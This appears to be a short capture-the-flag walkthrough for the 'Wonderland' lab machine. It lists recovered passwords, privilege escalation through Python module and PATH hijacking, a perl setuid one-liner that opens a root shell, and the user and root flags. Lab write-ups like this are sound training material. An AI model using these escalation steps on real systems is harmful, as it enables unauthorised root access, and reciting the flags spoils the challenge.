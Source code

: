 # Wonderland



----------------------------------

view-source:http://10.10.101.240/r/a/b/b/i/t/

alice:HowDothTheLittleCrocodileImproveHisShiningTail

Needs a `random.py` in the home directory to privesc

sudo -l to switch to `rabbit` user and find `teaParty` setuid program.

It runs `date` and we can create a fake `date` to run first in the path.

This brings us to `hatter` user.

in the hatter user home directory there is a password.txt

```
WhyIsARavenLikeAWritingDesk?
```

As hatter, we can run `perl` and abuse the setuid capability

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

1. Obtain the flag in user.txt

```
thm{"Curiouser and curiouser!"}
```


2. Escalate your privileges, what is the flag in root.txt?

```
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```